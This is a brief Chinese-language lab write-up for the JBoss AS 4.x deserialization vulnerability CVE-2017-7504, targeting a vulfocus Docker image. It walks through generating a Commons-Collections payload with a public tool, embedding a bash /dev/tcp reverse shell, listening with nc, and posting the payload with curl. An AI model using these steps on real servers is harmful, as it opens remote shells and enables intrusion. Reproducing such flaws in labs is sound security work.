

# JBoss 命令执行漏洞（CVE-2017-7504）by [Vdeem](https://github.com/Vdeem)

## 一、漏洞描述

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、影响版本

Red Hat JBoss Application Server <=4.x

## 三、利用流程

1 对应镜像名称为:vulfocus/jboss-cve_2017_7504

2 利用工具地址：https://github.com/joaomatosf/JavaDeserH2HC

3 编译并生成序列化数据

```bash
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
```

4 设置反弹ip与端口

```
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/1.1.1.1/1234 0>&1"
```

5 服务器监听

```
nc -lvp 1234
```

6 发送数据包

```
curl http://127.0.0.1:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

7 可成功反弹shell
